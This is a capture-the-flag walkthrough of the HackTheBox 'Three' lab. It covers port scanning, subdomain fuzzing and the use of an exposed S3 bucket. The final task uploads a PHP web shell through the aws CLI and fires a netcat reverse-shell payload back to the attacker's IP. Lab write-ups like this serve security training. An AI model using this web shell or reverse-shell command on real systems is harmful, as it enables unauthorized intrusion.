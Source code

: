 <h3> Starting Point HackTheBox </h3>

<h3> Machine name: Three  </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5a46f1d2-4fc7-4016-8806-53dc390637ee)

#### Task 1

- How many TCP ports are open? 

First Let's scan the target
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f557a092-18c1-43e1-93b8-3ae08d4e1cf5)

```
Answer: 2 
```

#### Task 2

- What is the domain of the email address provided in the "Contact" section of the website? 

Going over to the web page shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1862c530-cbbe-4c92-8859-67b02e424ac9)

Checking the *Contact* page shows this email address
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f64c39e0-6be7-4fa2-95f9-13f947ec6a2d)

We can see the domain name

```
Answer:  thetoppers.htb 
```

#### Task 3

-  In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

For this we need to edit our */etc/hosts* file so that it can resolve the hostname to ip address
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1738b417-0776-41c9-bd29-128f50127420)

```
Answer: /etc/hosts
```

#### Task 4

-  Which sub-domain is discovered during further enumeration? 

Let us fuzz for subdomain using *ffuf*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/41e96849-3940-48b5-a58a-2dcef10209c5)

We see that the result shows that the *s3* sub domain is up 

So i'll add *s3.thetoppers.htb* to my */etc/hosts* file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b82fc630-ff49-4e64-a81c-771ab1e7d7d0)

```
Answer: s3.thetoppers.htb
```

#### Task 5

-  Which service is running on the discovered sub-domain? 

Since we see the sub domain name looks interesting i'll search it up on google
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/49593313-c24d-434b-b3ea-0ecad5988ac5)

From the result we can tell the answer is *Amazon S3*

```
Answer: Amazon S3
```

#### Task 6

-  Which command line utility can be used to interact with the service running on the discovered sub-domain? 

Searching google for this gives the answer
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aeb6d782-b0e8-4a9b-b51e-5b3f62821d59)

```
Answer: awscli
```

#### Task 7

-  Which command is used to set up the AWS CLI installation? 

I installed aws tool from [here](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)

So to set up aws we use *aws configure*

```
Answer: aws configure
```

#### Task 8

-  What is the command used by the above utility to list all of the S3 buckets? 

To list all of the S3 bucket we use:

```
Answer: aws s3 ls 
```

But doing that on the target shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a54c9cc6-889f-4e01-94b5-c5949b078d7e)

It is trying to access the main amazon aws endpoint

But we just need to reference it to the endpoint already give to us

So I did this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8538bce0-8639-4995-98b1-d70a61f9494d)

Cool we see the index.php & .htaccess file

#### Task 9

-  This server is configured to run files written in what web scripting language? 

Back to the web app 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9cadf238-ba5f-4053-aeb0-d301a22a451a)

Using *wappalyzer* shows the language of the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/65f37845-2d21-4be1-8454-1bc5e5e1c944)

```
Answer: PHP
```

#### Task 10

- Submit the root flag

Since we know the aws allows write access we can put files to the aws

But let us first download the index.php file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f9f6bbe-7c7f-449e-8597-7830753699d1)

Opening it shows it is the web root directory of the web server on port 80
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/71abc268-f1d7-4a7f-997a-bdea7cb5678e)

Cool. So this means we can upload our own file to the server

I created a file with this content names *shell.php*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6bf93190-efbe-4438-9498-6f0832c036cf)

```php
<?php system($_GET['cmd']); ?>
```

Now i uploaded it to the aws
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2c6aeb84-094f-4459-86df-76b02ca1f926)

```
aws s3 --endpoint http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb/
```

Our shell is uploaded we can now access it from the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/160695da-44ce-4075-b9a4-a9b232a2737b)

We are user *www-data* let's get a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/efaacc43-3347-4c0b-9e5e-77209a9cc50c)

```
Payload: http://thetoppers.htb/shell.php?cmd=busybox%20nc%2010.10.14.27%201337%20-e%20/bin/bash
```

The flag is there :)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6d8b5859-4869-4bef-b640-33204ac41102)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/02f1f4a3-c853-4895-98f2-cdaccb64d883)
